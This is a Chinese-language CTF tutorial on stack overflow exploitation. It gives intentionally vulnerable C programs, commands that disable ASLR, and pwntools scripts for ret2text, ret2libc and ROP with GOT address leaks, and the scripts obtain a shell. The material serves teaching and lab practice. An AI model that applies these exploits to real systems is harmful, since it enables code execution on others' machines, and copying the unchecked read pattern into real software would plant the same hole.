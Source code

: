 ```yaml
---
title: Stack Overflow Exploit
date: 2018-06-08
tags: [pwn,ctf]
---
```


本文主要包括简单的栈溢出问题以及绕过一些防护措施的方法！

<!-- more -->

##前置技能

- Basic C Knowledge
- Basic x86 assembly language
- Basic gcc as well as Linux command  

## 基本例子（无防护措施）

```c
// stack_example_1.c
// gcc stack_example_1.c -m32 -fno-stack-protector -z execstack -no-pie -o stack_example_1
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void success() { write(1, " You PWN me! \n", 12); exit(0); }
void vulnerable() {
  char s[16];
  read(0, s, 0x100);
  write(1, s, strlen(s));
  return;
}
int main(int argc, char **argv) {
  vulnerable();
  return 0;
}
```

禁用系统的ASLR：`sudo sh -c "echo 0 > /proc/sys/kernel/randomize_va_space"`

先 gdb 调试，使用 `pattern create` 和 `pattern offset` 计算出返回地址所在位置，再获取 success 函数的地址，把返回地址换成 success 函数的地址（覆盖原有的返回值的），就可以执行到 success 函数了。利用脚本如下。

```python
#!/usr/bin/env python
# coding: utf-8
# exp1.py

from pwn import *

io = process('./stack_example_1')
elf = ELF('./stack_example_1')
success_addr = elf.symbols['success']

payload = '&'*28 + p32(success_addr)
io.send(payload)

print io.recv()
```



## Ret2libc（开启NX）

```c
// stack_example_2.c
// gcc stack_example_2.c -m32 -fno-stack-protector -no-pie -o stack_example_2
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void vulnerable() {
  char s[16];
  read(0, s, 0x100);
  write(1, s, strlen(s));
  return;
}
int main(int argc, char **argv) {
  vulnerable();
  return 0;
}
```

因为堆栈不可执行了，那么只需要把代码跳转去可执行的区段（libc中）就可以了。所以用 ldd 查看下 libc 的偏移，再加上system函数的在 libc 中的偏移，传个参数，就可以 getshell。

```python
#!/usr/bin/env python
# coding: utf-8
# exp2.py

from pwn import *

io = process('./stack_example_2')
elf = ELF('./stack_example_2')
libc = ELF('./libc.so.6')

main_addr = elf.symbols['main']
libc_base_addr = 0xf7e00000 # ldd ./stack_example_2
system_addr = libc.symbols['system'] + libc_base_addr
binsh_addr = next(libc.search('/bin/sh')) + libc_base_addr

payload = '&'*28 + p32(system_addr) + p32(main_addr) + p32(binsh_addr)
io.send(payload)
io.recv()

io.interactive()
```



## ROP（开启ASLR+NX，有libc）

 ```c
// stack_example_3.c
// gcc stack_example_3.c -m32 -fno-stack-protector -no-pie -o stack_example_3
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void vulnerable() {
  char s[16];
  read(0, s, 0x100);
  write(1, s, strlen(s));
  return;
}
int main(int argc, char **argv) {
  vulnerable();
  return 0;
}
 ```

开启ASLR：`sudo sh -c "echo 2 > /proc/sys/kernel/randomize_va_space"`

由于系统开启了随机化，libc 的地址被随机了，所以要先泄漏一个 libc 里函数的地址，在通过相对偏移计算其他函数，例如 system 和 /bin/sh 的地址，最后 getshell。

```python
#!/usr/bin/env python
# coding: utf-8
# exp3.py

from pwn import *

io = process('./stack_example_3')
elf = ELF('./stack_example_3')
libc = ELF('./libc.so.6')

main_addr = elf.symbols['main']
plt_write = elf.symbols['write']
got_write = elf.got['write']

# get write_addr
payload = '&'*28 + p32(plt_write) + p32(main_addr) + p32(1) +p32(got_write) + p32(4)
io.send(payload)
write_addr = u32(io.recv()[-4:])

# calc system_addr and binsh_addr
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
payload = '&'*28  + p32(system_addr) + p32(main_addr) + p32(binsh_addr)
io.send(payload)
io.recv()

io.interactive()
```



## ROP（开启ASLR+NX，无libc）

先泄漏两个libc中函数的地址，再去在线的 [libc database](https://libc.blukat.me/) 中找服务器使用的libc版本。

```python
#!/usr/bin/env python
# coding: utf-8
# leak.py

from pwn import *

io = process('./stack_example_4')
elf = ELF('./stack_example_4')

main_addr = elf.symbols['main']
plt_write = elf.symbols['write']
got_write = elf.got['write']
read_write = elf.got['read']

# leak write_addr
payload = '&'*28 + p32(plt_write) + p32(main_addr) + p32(1) +p32(got_write) + p32(4)
io.send(payload)
write_addr = u32(io.recv()[-4:])
print 'write_addr: ', hex(write_addr)

# leak read_write
payload = '&'*28 + p32(plt_write) + p32(main_addr) + p32(1) +p32(read_write) + p32(4)
io.send(payload)
read_addr = u32(io.recv()[-4:])
print 'read_addr : ', hex(read_addr)
```

然后再当作有libc的题做

```python
#!/usr/bin/env python
# coding: utf-8
# exp4.py

from pwn import *

io = process('./stack_example_4')
elf = ELF('./stack_example_4')
libc = ELF('./libc6_2.27-3ubuntu1_i386.so')

main_addr = elf.symbols['main']
plt_write = elf.symbols['write']
got_write = elf.got['write']

# get write_addr
payload = '&'*28 + p32(plt_write) + p32(main_addr) + p32(1) +p32(got_write) + p32(4)
io.send(payload)
write_addr = u32(io.recv()[-4:])

# calc system_addr and binsh_addr
system_addr = write_addr - (libc.symbols['write'] - libc.symbols['system'])
binsh_addr = write_addr - (libc.symbols['write'] - next(libc.search('/bin/sh')))
payload = '&'*28  + p32(system_addr) + p32(main_addr) + p32(binsh_addr)
io.send(payload)
io.recv()

io.interactive()
```

